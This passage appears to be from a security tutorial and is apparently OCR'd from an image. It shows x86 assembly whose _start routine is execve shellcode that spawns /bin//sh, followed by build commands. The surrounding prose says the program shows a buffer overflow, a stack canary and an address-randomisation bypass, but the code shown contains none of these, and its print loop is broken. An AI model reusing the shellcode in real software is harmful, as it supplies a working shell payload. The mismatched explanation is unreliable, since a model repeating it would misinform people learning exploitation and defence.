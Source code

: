 ```assembly
    mov eax, 1             ; Syscall number for sys_exit
    xor ebx, ebx           ; Return status (0)
    int 0x80               ; Call kernel

print_string:
    ; Print the null-terminated string at the address in ecx
    mov edx, 0             ; Clear edx (end of string marker)
.loop:
    mov al, [ecx]          ; Load the next character from memory
    cmp al, 0              ; Check if it's the null terminator
    je .done               ; If it is, we're done printing
    mov eax, 4             ; Syscall number for sys_write
    mov ebx, 1             ; File descriptor for stdout
    mov edx, 1             ; Length of the character to print
    int 0x80               ; Call kernel to print the character
    inc ecx                ; Move to the next character
    jmp .loop              ; Repeat until null terminator is found
.done:
    ret                    ; Return from the subroutine

section .bss
    shellcode resb 24      ; Reserve space for shellcode
    shellcode_len equ ($ - shellcode)

section .text
    global _start

_start:
    ; Shellcode to spawn a shell
    xor eax, eax           ; Clear eax register
    push eax               ; Push null byte onto the stack
    push 0x68732f2f        ; Push "//sh" onto the stack
    push 0x6e69622f        ; Push "/bin" onto the stack
    mov ebx, esp           ; Move stack pointer to ebx (pointer to "/bin//sh")
    mov ecx, eax           ; Null out ecx
    mov edx, eax           ; Null out edx
    mov al, 0xb            ; syscall number for execve
    int 0x80               ; Call kernel
```

This program demonstrates a basic stack-based buffer overflow vulnerability with shellcode injection and address randomization bypass. It includes a stack canary value to detect buffer overflow attempts. If the stack canary value is modified, indicating a buffer overflow attempt, the program exits with an error message.

To demonstrate this vulnerability, you can insert your shellcode into the `shellcode` section of the program. After inserting your shellcode, you can compile and link the program using the following commands:

```bash
nasm -f elf32 stack_overflow.asm -o stack_overflow.o
ld -m elf_i386 stack_overflow.o -o stack_overflow
```
